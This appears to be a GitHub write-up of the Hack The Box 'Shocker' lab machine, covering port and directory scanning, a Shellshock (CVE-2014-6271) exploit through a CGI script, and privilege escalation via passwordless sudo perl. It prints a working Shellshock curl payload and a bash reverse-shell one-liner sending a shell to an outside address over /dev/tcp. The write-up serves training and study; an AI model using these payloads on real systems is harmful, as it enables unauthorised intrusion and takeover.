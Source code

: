 # HTB_Shocker


This is my write-up for the Shocker machine on Hack The Box. I exploited a Shellshock vulnerability in a Bash CGI script to gain initial access, then escalated to root using a simple sudo misconfiguration.

---

## Recon

### Nmap
I started with a full port scan:

```bash
nmap -A -Pn -p- -T4 10.129.163.43
````

![Nmap Scan](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/Nmap1.png)


**Open ports:**

- `80/tcp` – Apache httpd 2.4.18
    
- `2222/tcp` – OpenSSH 7.2p2
    

The rest were filtered.

### Web Checks

- `whatweb` confirmed Apache 2.4.18
    
- Edited `/etc/hosts` to include:
    
    ```
    10.129.163.43 shocker.htb
    ```
    

---

## Web Enumeration

I ran both `dirsearch` and `gobuster` to find hidden paths.

```bash
gobuster dir -u http://shocker.htb -w /usr/share/wordlists/dirb/common.txt
```

That revealed `/cgi-bin/`.

Then I focused on that path with extensions:

```bash
gobuster dir -u http://shocker.htb/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x sh,pl,cgi
```

Found:

```
/cgi-bin/user.sh
```

When I accessed it, it returned basic uptime output — a Bash CGI script.

---

## Exploitation – Shellshock (CVE-2014-6271)

I tested Shellshock with:

```bash
curl -H "User-Agent: () { :; }; echo; /bin/id" http://shocker.htb/cgi-bin/user.sh
```

It responded with the UID of `www-data`. So it was vulnerable.

### Reverse Shell

I set up my listener:

```bash
nc -lvnp 4444
```

Then launched the attack:

```bash
curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.71/4444 0>&1'" http://shocker.htb/cgi-bin/user.sh
```

Got a shell as user `shelly`.

---

## Privilege Escalation

First, I checked for sudo rights:

```bash
sudo -l
```

Output:

```
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

That means I could run Perl as root with no password.

### Root Shell

I used:

```bash
sudo perl -e 'exec "/bin/bash";'
```

Confirmed with `whoami` — I was root.

---

## Flags

- `user.txt`: Found in `/home/shelly/
    
- `root.txt`: Found in `/root/root.txt

---

## Notes

This machine was a good refresher on CGI-Bash vulnerabilities and the Shellshock CVE. I avoided using Metasploit or automated exploits — everything was done manually to improve my process understanding.

---

**Written by:** Ibrahim Ismaeel  
[GitHub Profile](https://github.com/IbrahimAlbadrani)
